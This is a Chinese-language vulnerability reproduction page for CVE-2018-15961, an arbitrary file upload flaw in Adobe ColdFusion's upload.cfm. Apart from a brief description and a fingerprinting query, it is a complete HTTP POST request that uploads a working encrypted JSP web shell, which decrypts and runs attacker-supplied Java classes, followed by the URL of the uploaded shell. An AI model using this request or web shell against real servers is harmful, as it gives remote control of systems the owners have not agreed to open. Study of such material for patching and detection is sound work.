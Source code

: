 # Adobe ColdFusion upload.cfm 任意文件上传漏洞 CVE-2018-15961

## 漏洞描述

Adobe ColdFusion存在任意文件上传漏洞，通过漏洞攻击者可上传任意文件控制服务器

## 漏洞影响

<a-checkbox checked>Adobe ColdFusion </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Adobe-ColdFusion" </a-checkbox></br>

## 漏洞复现

产品官网

![img](../../../.vuepress/public/img/1628245289026-29811461-bb3c-4fc7-b594-b5b005f6e5f3.png)

发送数据包上传任意文件

```php
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/upload.cfm HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 918
Content-Type: multipart/form-data; boundary=e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Accept-Encoding: gzip

--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Content-Disposition: form-data; name="file"; filename="b79f4282c451e975c357d9616acea7ba.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Content-Disposition: form-data; name="path"

path
--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0--
```

![img](../../../.vuepress/public/img/1628245376410-1ad8424a-c8ee-4894-86f0-1f858f29b230.png)

再访问路径 **/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/shell.jsp**

![img](../../../.vuepress/public/img/1628245895622-d98538f1-a05e-4356-b734-8b1f361a5c40.png)